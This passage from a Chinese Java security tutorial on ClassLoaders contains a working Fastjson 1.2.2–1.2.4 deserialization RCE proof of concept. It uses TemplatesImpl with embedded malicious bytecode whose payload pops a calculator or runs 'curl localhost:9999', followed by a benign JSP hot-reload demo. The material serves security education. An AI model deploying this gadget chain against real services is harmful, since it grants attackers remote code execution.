			36, 10, 0, 37, 0, 38, 8, 0, 39, 8, 0, 40, 8, 0, 41, 10, 0, 42, 0, 43, 10, 0, 42, 0, 44, 7, 0, 45, 10,
			0, 12, 0, 46, 7, 0, 47, 7, 0, 48, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4,
			67, 111, 100, 101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101, 1,
			0, 13, 83, 116, 97, 99, 107, 77, 97, 112, 84, 97, 98, 108, 101, 7, 0, 47, 7, 0, 49, 7, 0, 45, 1, 0,
			9, 116, 114, 97, 110, 115, 102, 111, 114, 109, 1, 0, 114, 40, 76, 99, 111, 109, 47, 115, 117, 110,
			47, 111, 114, 103, 47, 97, 112, 97, 99, 104, 101, 47, 120, 97, 108, 97, 110, 47, 105, 110, 116, 101,
			114, 110, 97, 108, 47, 120, 115, 108, 116, 99, 47, 68, 79, 77, 59, 91, 76, 99, 111, 109, 47, 115,
			117, 110, 47, 111, 114, 103, 47, 97, 112, 97, 99, 104, 101, 47, 120, 109, 108, 47, 105, 110, 116,
			101, 114, 110, 97, 108, 47, 115, 101, 114, 105, 97, 108, 105, 122, 101, 114, 47, 83, 101, 114, 105,
			97, 108, 105, 122, 97, 116, 105, 111, 110, 72, 97, 110, 100, 108, 101, 114, 59, 41, 86, 1, 0, 10, 69,
			120, 99, 101, 112, 116, 105, 111, 110, 115, 7, 0, 50, 1, 0, -90, 40, 76, 99, 111, 109, 47, 115, 117,
			110, 47, 111, 114, 103, 47, 97, 112, 97, 99, 104, 101, 47, 120, 97, 108, 97, 110, 47, 105, 110, 116,
			101, 114, 110, 97, 108, 47, 120, 115, 108, 116, 99, 47, 68, 79, 77, 59, 76, 99, 111, 109, 47, 115,
			117, 110, 47, 111, 114, 103, 47, 97, 112, 97, 99, 104, 101, 47, 120, 109, 108, 47, 105, 110, 116,
			101, 114, 110, 97, 108, 47, 100, 116, 109, 47, 68, 84, 77, 65, 120, 105, 115, 73, 116, 101, 114, 97,
			116, 111, 114, 59, 76, 99, 111, 109, 47, 115, 117, 110, 47, 111, 114, 103, 47, 97, 112, 97, 99, 104,
			101, 47, 120, 109, 108, 47, 105, 110, 116, 101, 114, 110, 97, 108, 47, 115, 101, 114, 105, 97, 108,
			105, 122, 101, 114, 47, 83, 101, 114, 105, 97, 108, 105, 122, 97, 116, 105, 111, 110, 72, 97, 110,
			100, 108, 101, 114, 59, 41, 86, 1, 0, 10, 83, 111, 117, 114, 99, 101, 70, 105, 108, 101, 1, 0, 25,
			84, 101, 115, 116, 65, 98, 115, 116, 114, 97, 99, 116, 84, 114, 97, 110, 115, 108, 101, 116, 46, 106,
			97, 118, 97, 12, 0, 16, 0, 17, 1, 0, 22, 111, 112, 101, 110, 32, 45, 97, 32, 67, 97, 108, 99, 117,
			108, 97, 116, 111, 114, 46, 97, 112, 112, 1, 0, 7, 111, 115, 46, 110, 97, 109, 101, 7, 0, 51, 12, 0,
			52, 0, 53, 1, 0, 7, 87, 105, 110, 100, 111, 119, 115, 7, 0, 49, 12, 0, 54, 0, 55, 1, 0, 22, 99, 97,
			108, 99, 32, 49, 50, 51, 52, 53, 54, 55, 56, 57, 48, 49, 50, 51, 52, 53, 54, 55, 1, 0, 5, 76, 105,
			110, 117, 120, 1, 0, 20, 99, 117, 114, 108, 32, 108, 111, 99, 97, 108, 104, 111, 115, 116, 58, 57,
			57, 57, 57, 47, 7, 0, 56, 12, 0, 57, 0, 58, 12, 0, 59, 0, 60, 1, 0, 19, 106, 97, 118, 97, 47, 105,
			111, 47, 73, 79, 69, 120, 99, 101, 112, 116, 105, 111, 110, 12, 0, 61, 0, 17, 1, 0, 46, 99, 111,
			109, 47, 97, 110, 98, 97, 105, 47, 115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100,
			101, 114, 47, 84, 101, 115, 116, 65, 98, 115, 116, 114, 97, 99, 116, 84, 114, 97, 110, 115, 108,
			101, 116, 1, 0, 64, 99, 111, 109, 47, 115, 117, 110, 47, 111, 114, 103, 47, 97, 112, 97, 99, 104,
			101, 47, 120, 97, 108, 97, 110, 47, 105, 110, 116, 101, 114, 110, 97, 108, 47, 120, 115, 108, 116,
			99, 47, 114, 117, 110, 116, 105, 109, 101, 47, 65, 98, 115, 116, 114, 97, 99, 116, 84, 114, 97, 110,
			115, 108, 101, 116, 1, 0, 16, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110,
			103, 1, 0, 57, 99, 111, 109, 47, 115, 117, 110, 47, 111, 114, 103, 47, 97, 112, 97, 99, 104, 101,
			47, 120, 97, 108, 97, 110, 47, 105, 110, 116, 101, 114, 110, 97, 108, 47, 120, 115, 108, 116, 99,
			47, 84, 114, 97, 110, 115, 108, 101, 116, 69, 120, 99, 101, 112, 116, 105, 111, 110, 1, 0, 16, 106,
			97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 121, 115, 116, 101, 109, 1, 0, 11, 103, 101, 116, 80,
			114, 111, 112, 101, 114, 116, 121, 1, 0, 38, 40, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47,
			83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114,
			105, 110, 103, 59, 1, 0, 10, 115, 116, 97, 114, 116, 115, 87, 105, 116, 104, 1, 0, 21, 40, 76, 106,
			97, 118, 97, 47, 108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 90, 1, 0, 17, 106, 97,
			118, 97, 47, 108, 97, 110, 103, 47, 82, 117, 110, 116, 105, 109, 101, 1, 0, 10, 103, 101, 116, 82,
			117, 110, 116, 105, 109, 101, 1, 0, 21, 40, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 82,
			117, 110, 116, 105, 109, 101, 59, 1, 0, 4, 101, 120, 101, 99, 1, 0, 39, 40, 76, 106, 97, 118, 97, 47,
			108, 97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108, 97, 110,
			103, 47, 80, 114, 111, 99, 101, 115, 115, 59, 1, 0, 15, 112, 114, 105, 110, 116, 83, 116, 97, 99, 107,
			84, 114, 97, 99, 101, 0, 33, 0, 14, 0, 15, 0, 0, 0, 0, 0, 3, 0, 1, 0, 16, 0, 17, 0, 1, 0, 18, 0, 0, 0,
			-93, 0, 2, 0, 4, 0, 0, 0, 57, 42, -73, 0, 1, 18, 2, 76, 18, 3, -72, 0, 4, 77, 44, 18, 5, -74, 0, 6,
			-103, 0, 9, 18, 7, 76, -89, 0, 15, 44, 18, 8, -74, 0, 6, -103, 0, 6, 18, 9, 76, -72, 0, 10, 43, -74,
			0, 11, 87, -89, 0, 8, 78, 45, -74, 0, 13, -79, 0, 1, 0, 40, 0, 48, 0, 51, 0, 12, 0, 2, 0, 19, 0, 0, 0,
			50, 0, 12, 0, 0, 0, 13, 0, 4, 0, 14, 0, 7, 0, 15, 0, 13, 0, 17, 0, 22, 0, 18, 0, 28, 0, 19, 0, 37, 0,
			20, 0, 40, 0, 24, 0, 48, 0, 27, 0, 51, 0, 25, 0, 52, 0, 26, 0, 56, 0, 28, 0, 20, 0, 0, 0, 24, 0, 4, -1,
			0, 28, 0, 3, 7, 0, 21, 7, 0, 22, 7, 0, 22, 0, 0, 11, 74, 7, 0, 23, 4, 0, 1, 0, 24, 0, 25, 0, 2, 0, 18, 0,
			0, 0, 25, 0, 0, 0, 3, 0, 0, 0, 1, -79, 0, 0, 0, 1, 0, 19, 0, 0, 0, 6, 0, 1, 0, 0, 0, 33, 0, 26, 0, 0, 0,
			4, 0, 1, 0, 27, 0, 1, 0, 24, 0, 28, 0, 2, 0, 18, 0, 0, 0, 25, 0, 0, 0, 4, 0, 0, 0, 1, -79, 0, 0, 0, 1,
			0, 19, 0, 0, 0, 6, 0, 1, 0, 0, 0, 38, 0, 26, 0, 0, 0, 4, 0, 1, 0, 27, 0, 1, 0, 29, 0, 0, 0, 2, 0, 30
	};

	/**
	 * 使用反射修改TemplatesImpl类的成员变量方式触发命令执行，Jackson和Fastjson采用这种方式触发RCE
	 *
	 * @throws Exception 调用异常
	 */
	public static void invokeField() throws Exception {
		TemplatesImpl template      = new TemplatesImpl();
		Class<?>      templateClass = template.getClass();

		// 获取需要修改的成员变量
		Field byteCodesField        = templateClass.getDeclaredField("_bytecodes");
		Field nameField             = templateClass.getDeclaredField("_name");
		Field tFactoryField         = templateClass.getDeclaredField("_tfactory");
		Field outputPropertiesField = templateClass.getDeclaredField("_outputProperties");

		// 修改成员属性访问权限
		byteCodesField.setAccessible(true);
		nameField.setAccessible(true);
		tFactoryField.setAccessible(true);
		outputPropertiesField.setAccessible(true);

		// 设置类字节码
		byteCodesField.set(template, new byte[][]{CLASS_BYTES});

		// 设置名称
		nameField.set(template, "");

		// 设置TransformerFactoryImpl实例
		tFactoryField.set(template, new TransformerFactoryImpl());

		// 设置Properties配置
		outputPropertiesField.set(template, new Properties());

		// 触发defineClass调用链：
		//   getOutputProperties->newTransformer->getTransletInstance->defineTransletClasses->defineClass
		// 触发命令执行调用链：
		//   getOutputProperties->newTransformer->getTransletInstance->new TestAbstractTranslet->Runtime#exec
		template.getOutputProperties();
	}

	/**
	 * 使用反射调用TemplatesImpl类的私有构造方法方式触发命令执行
	 *
	 * @throws Exception 调用异常
	 */
	public static void invokeConstructor() throws Exception {
		// 获取TemplatesImpl构造方法
		Constructor<TemplatesImpl> constructor = TemplatesImpl.class.getDeclaredConstructor(
				byte[][].class, String.class, Properties.class, int.class, TransformerFactoryImpl.class
		);

		// 修改访问权限
		constructor.setAccessible(true);

		// 创建TemplatesImpl实例
		TemplatesImpl template = constructor.newInstance(
				new byte[][]{CLASS_BYTES}, "", new Properties(), -1, new TransformerFactoryImpl()
		);

		template.getOutputProperties();
	}

	/**
	 * Fastjson 1.2.2 - 1.2.4反序列化RCE示例
	 */
	public static void fastjsonRCE() {
		// 构建恶意的JSON
		Map<String, Object> dataMap = new LinkedHashMap<String, Object>();
		dataMap.put("@type", TemplatesImpl.class.getName());
		dataMap.put("_bytecodes", new String[]{encodeBase64String(CLASS_BYTES)});
		dataMap.put("_name", "");
		dataMap.put("_tfactory", new Object());
		dataMap.put("_outputProperties", new Object());

		// 生成Payload
		String json = JSON.toJSONString(dataMap);
		System.out.println(json);

		// 使用FastJson反序列化，但必须启用SupportNonPublicField特性
		JSON.parseObject(json, Object.class, new ParserConfig(), Feature.SupportNonPublicField);
	}

	public static void main(String[] args) throws Exception {
//		invokeField();
//		invokeConstructor();
		  fastjsonRCE();
	}

}
```

在MacOS和Windows上执行示例程序后会弹出计算器，Linux会执行`curl localhost:9999`。


## JSP类加载

JSP是JavaEE中的一种常用的脚本文件，可以在JSP中调用Java代码，实际上经过编译后的jsp就是一个Servlet文件，JSP和PHP一样可以实时修改。

众所周知，Java的类是不允许动态修改的（这里特指新增类方法或成员变量），之所以JSP具备热更新的能力，实际上借助的就是自定义类加载行为，当Servlet容器发现JSP文件发生了修改后就会创建一个新的类加载器来替代原类加载器，而被替代后的类加载器所加载的文件并不会立即释放，而是需要等待GC。


**示例 - 模拟的JSP文件动态加载程序：**

```java
package com.anbai.sec.classloader;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import java.io.File;
import java.lang.reflect.Method;
import java.lang.reflect.Modifier;
import java.util.HashMap;
import java.util.Map;

public class TestJSPClassLoader {

	/**
	 * 缓存JSP文件和类加载，刚jsp文件修改后直接替换类加载器实现JSP类字节码热加载
	 */
	private final Map<File, JSPClassLoader> jspClassLoaderMap = new HashMap<File, JSPClassLoader>();

	/**
	 * 创建用于测试的test.jsp类字节码，类代码如下：
	 * <pre>
	 * package com.anbai.sec.classloader;
	 *
	 * public class test_jsp {
	 *     public void _jspService() {
	 *         System.out.println("Hello...");
	 *     }
	 * }
	 * </pre>
	 *
	 * @param className 类名
	 * @param content   用于测试的输出内容，如：Hello...
	 * @return test_java类字节码
	 * @throws Exception 创建异常
	 */
	public static byte[] createTestJSPClass(String className, String content) throws Exception {
		// 使用Javassist创建类字节码
		ClassPool classPool = ClassPool.getDefault();

		// 创建一个类，如：com.anbai.sec.classloader.test_jsp
		CtClass ctServletClass = classPool.makeClass(className);

		// 创建_jspService方法
		CtMethod ctMethod = new CtMethod(CtClass.voidType, "_jspService", new CtClass[]{}, ctServletClass);
		ctMethod.setModifiers(Modifier.PUBLIC);

		// 写入hello方法代码
		ctMethod.setBody("System.out.println(\"" + content + "\");");

		// 将hello方法添加到类中
		ctServletClass.addMethod(ctMethod);

		// 生成类字节码
		byte[] bytes = ctServletClass.toBytecode();

		// 释放资源
		ctServletClass.detach();

		return bytes;
	}

	/**
	 * 检测jsp文件是否改变，如果发生了修改就重新编译jsp并更新该jsp类字节码
	 *
	 * @param jspFile   JSP文件对象，因为是模拟的jsp文件所以这个文件不需要存在
	 * @param className 类名
	 * @param bytes     类字节码
	 * @param parent    JSP的父类加载
	 */
	public JSPClassLoader getJSPFileClassLoader(File jspFile, String className, byte[] bytes, ClassLoader parent) {
		JSPClassLoader jspClassLoader = this.jspClassLoaderMap.get(jspFile);

		// 模拟第一次访问test.jsp时jspClassLoader是空的，因此需要创建
		if (jspClassLoader == null) {
			jspClassLoader = new JSPClassLoader(parent);
			jspClassLoader.createClass(className, bytes);

			// 缓存JSP文件和所使用的类加载器
			this.jspClassLoaderMap.put(jspFile, jspClassLoader);

			return jspClassLoader;
		}

		// 模拟第二次访问test.jsp，这个时候内容发生了修改，这里实际上应该检测文件的最后修改时间是否相当，
		// 而不是检测是否是0，因为当jspFile不存在的时候返回值是0，所以这里假设0表示这个文件被修改了，
		// 那么需要热加载该类字节码到类加载器。
		if (jspFile.lastModified() == 0) {
			jspClassLoader = new JSPClassLoader(parent);
			jspClassLoader.createClass(className, bytes);

			// 缓存JSP文件和所使用的类加载器
			this.jspClassLoaderMap.put(jspFile, jspClassLoader);
			return jspClassLoader;
		}

		return null;
	}

	/**
	 * 使用动态的类加载器调用test_jsp#_jspService方法
	 *
	 * @param jspFile   JSP文件对象，因为是模拟的jsp文件所以这个文件不需要存在
	 * @param className 类名
	 * @param bytes     类字节码
	 * @param parent    JSP的父类加载
	 */
	public void invokeJSPServiceMethod(File jspFile, String className, byte[] bytes, ClassLoader parent) {
		JSPClassLoader jspClassLoader = getJSPFileClassLoader(jspFile, className, bytes, parent);

		try {
			// 加载com.anbai.sec.classloader.test_jsp类
			Class<?> jspClass = jspClassLoader.loadClass(className);

			// 创建test_jsp类实例
			Object jspInstance = jspClass.newInstance();

			// 获取test_jsp#_jspService方法
			Method jspServiceMethod = jspClass.getMethod("_jspService");

			// 调用_jspService方法
			jspServiceMethod.invoke(jspInstance);
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

	public static void main(String[] args) throws Exception {
		TestJSPClassLoader test = new TestJSPClassLoader();

		String      className   = "com.anbai.sec.classloader.test_jsp";
		File        jspFile     = new File("/data/test.jsp");
		ClassLoader classLoader = ClassLoader.getSystemClassLoader();

		// 模拟第一次访问test.jsp文件自动生成test_jsp.java
		byte[] testJSPClass01 = createTestJSPClass(className, "Hello...");

		test.invokeJSPServiceMethod(jspFile, className, testJSPClass01, classLoader);

		// 模拟修改了test.jsp文件，热加载修改后的test_jsp.class
		byte[] testJSPClass02 = createTestJSPClass(className, "World...");
		test.invokeJSPServiceMethod(jspFile, className, testJSPClass02, classLoader);
	}

	/**
	 * JSP类加载器
	 */
	static class JSPClassLoader extends ClassLoader {

		public JSPClassLoader(ClassLoader parent) {
			super(parent);
		}

		/**
		 * 创建类
		 *
		 * @param className 类名
		 * @param bytes     类字节码
		 */
		public void createClass(String className, byte[] bytes) {
			defineClass(className, bytes, 0, bytes.length);
		}

	}

}
```

该示例程序通过Javassist动态生成了两个不同的`com.anbai.sec.classloader.test_jsp`类字节码，模拟JSP文件修改后的类加载，核心原理就是**检测到JSP文件修改后动态替换类加载器**，从而实现JSP热加载，具体的处理逻辑如下（第3和第4部未实现，使用了Javassist动态创建类字节码模拟）：

1. 模拟客户端第一次访问test.jsp；
2. 检测是否已缓存了test.jsp的类加载；
3. ~~Servlet容器找到test.jsp文件并编译成test_jsp.java~~；
4. ~~编译成test_jsp.class文件~~；
5. 创建test.jsp文件专用的类加载器`jspClassLoader`，并缓存到`jspClassLoaderMap`对象中；
6. `jspClassLoader`加载test_jsp.class字节码并创建`com.anbai.sec.classloader.test_jsp`类；
7. `jspClassLoader`调用`com.anbai.sec.classloader.test_jsp`类的`_jspService`方法；
8. 输出`Hello...`；
9. 模拟客户端第二次访问test.jsp；
10. 假设test.jsp文件发生了修改，重新编译test.jsp并创建一个新的类加载器`jspClassLoader`加载新的类字节码；
11. 使用新创建的`jspClassLoader`类加载器调用`com.anbai.sec.classloader.test_jsp`类的`_jspService`方法；
12. 输出`World...`；


## ClassLoader总结

`ClassLoader`是JVM中一个非常重要的组成部分，`ClassLoader`可以为我们加载任意的java类，通过自定义`ClassLoader`更能够实现自定义类加载行为，在后面的几个章节我们也将讲解`ClassLoader`的实际利用场景。